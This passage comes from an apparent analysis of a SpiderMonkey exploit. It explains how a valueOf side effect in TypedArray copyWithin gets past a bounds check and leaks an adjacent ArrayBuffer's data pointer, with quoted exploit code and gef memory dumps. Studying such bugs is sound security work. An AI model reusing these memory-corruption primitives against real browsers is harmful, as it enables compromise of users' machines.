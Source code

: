 ```javascript
    /* final = 48 */    
    var final = relativeEnd < 0 ? std_Math_max(len + relativeEnd, 0)
                                : std_Math_min(relativeEnd, len);
    /* count = 8 */
    var count = std_Math_min(final - from, len - to);

    ....................................
    
    if (count > 0)
        MoveTypedArrayElements(obj, to | 0, from | 0, count | 0); // call memmove inside
```

Let's sum up some important part of this function:
* It first read the `view`'s length and stored the value in the `len` variable. Later it will use this variable to perform some boundary check.
* However, at line 15 the `ToInteger(target)` will trigger the `valueOf` function in variable `hax`, making `view`'s `offset` become `88`, `length` become `8`.
* But the code still use `len` variable ( which in this case = `96` ) to perform the boundary check, making us able to bypass the checks and eventually calling ` MoveTypedArrayElements(obj, to | 0, from | 0, count | 0);`


Inside the `MoveTypedArrayElements` will call `memmove(dest, src, count)`, which in this case:
* `src` will be `view's data pointer + 88 + 40`
* `dest` will be `view's data pointer + 88`
* `count` will be `8`

Let's see what data will be copied to `dest`:

![](copy_addr.PNG)

Here `dest` = `0x7ffff7ebc558` and `src` = `0x7ffff7ebc580`, we can see the value `0x3ffffbf5e2d0` will be copied to `dest`. According to saelo's comment in the exploit:

```javascript
    // First qword in adjusted view now contains the data pointer (which is stored as a Private, thus needs to be shifted)
    var ptr = LShift1(new Int64(view));
    // ptr will point to inline data so we can calculate the address of the preceeding ArrayBuffer
    var addressOfInnerArrayBuffer = Sub(ptr, 8*8 + 8*8 + 8*12);
```

So `0x3ffffbf5e2d0` is actually a data pointer of an ArrayBuffer in its "Private" form. If we left shift the value 1 bit, it will become `0x7ffff7ebc5a0`, which is the data pointer of `buffers[80]`.

> I've traced the source code of SpiderMonkey and couldn't find the definition of the "Private form", so I still don't know why you need to left shift the value 1 bit to get the correct address of the data pointer. I would really appreciate it if someone can tell me where the definition is.

So what `view.copyWithin(hax, 32+8, 40+8);` does is copy the next ArrayBuffer's ( `buffers[80]` ) data pointer into TypedArray `view` . 

Later it stores the data pointer into `ptr`, and minus `224` to get the `addressOfInnerArrayBuffer`, which in this case is `0x7ffff7ebc4c0`:

```
gef➤  tel 0x7ffff7ebc4c0
0x00007ffff7ebc4c0│+0x00: 0x00007ffff7eb90d0  <-- group_
0x00007ffff7ebc4c8│+0x08: 0x00007ffff7eb73d0  <-- shape_
0x00007ffff7ebc4d0│+0x10: 0x0000000000000000  <-- slots_
0x00007ffff7ebc4d8│+0x18: 0x00000000013c7b70  <-- elements_
0x00007ffff7ebc4e0│+0x20: 0x00003ffffbf5e280  <-- data pointer
0x00007ffff7ebc4e8│+0x28: 0xfff8800000000060  <-- length
0x00007ffff7ebc4f0│+0x30: 0xfffe7ffff4601e60  <-- JSObject ( point to Uint8Array )
0x00007ffff7ebc4f8│+0x38: 0xfff8800000000000  <-- offet
0x00007ffff7ebc500│+0x40: 0x0000000000000000  <-- start point of a data pointer
0x00007ffff7ebc508│+0x48: 0x0000000000000000

```